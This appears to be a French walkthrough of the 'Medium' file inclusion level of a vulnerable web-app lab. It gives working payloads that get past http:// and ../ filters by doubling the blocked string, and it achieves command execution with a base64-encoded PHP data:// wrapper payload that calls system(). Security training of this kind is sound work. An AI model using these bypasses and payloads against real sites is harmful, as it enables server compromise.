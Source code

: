 # Niveau "Medium"

Sur ce niveau, il ne semble plus possible d'effectuer une RFI ainsi que d'utiliser la technique du path traversal \(mais la LFI reste toujours possible\) :

![](../../../../.gitbook/assets/12000a3502b9dc31280d18f793f10c96.png)

Après quelques essais on devine l'utilisation d'un filtrage des patterns `http://` et `https://`. Ce genre de filtrage est très souvent contournable car il est facile pour le développeur d'oublier un scénario. Il suffit par exemple ici de doubler le schéma désiré :

```http
?page=hthttp://tp://www.google.fr
```

![](../../../../.gitbook/assets/6db04f47f06efb8c2bef57d432450d27.png)

{% hint style="info" %}
Etant donné que seule les protocoles `http://` ou `https://` sont filtrés, il est également possible de passer par un autre protocole \(comme `ftp://`\) afin de réaliser l'attaque
{% endhint %}

Le path traversal semble maintenant impossible à ce niveau :

![](../../../../.gitbook/assets/a4d91e7de5a626a79d995d911f979bfc.png)

Mais contournable avec la même technique de contournement de doublement \(car le filtrage est sans doute effectué sur les occurrences `../` \) :

![](../../../../.gitbook/assets/ec7901f0677409430af1d90c1070d2fc.png)

L'utilisation de wrappers PHP reste tout de même possible :

![](../../../../.gitbook/assets/2057362e5ab96e727601f3daa14c87f9.png)

Mais plus intéressant, l'exécution de code grâce au wrapper `data://` fonctionne également \(un autre wrapper bien dangereux comme il faut 😋\) :

```http
?page=data://text/plain;base64.PD9waHAgc3lzdGVtKCdob3N0bmFtZScpOyA/Pg==
```

![](../../../../.gitbook/assets/30c63e8cd4a4620e2ca9674088884cb4.png)

La payload encodée en base64 étant la suivante :

```php
<?php 
  system('hostname');
?>
```

## 

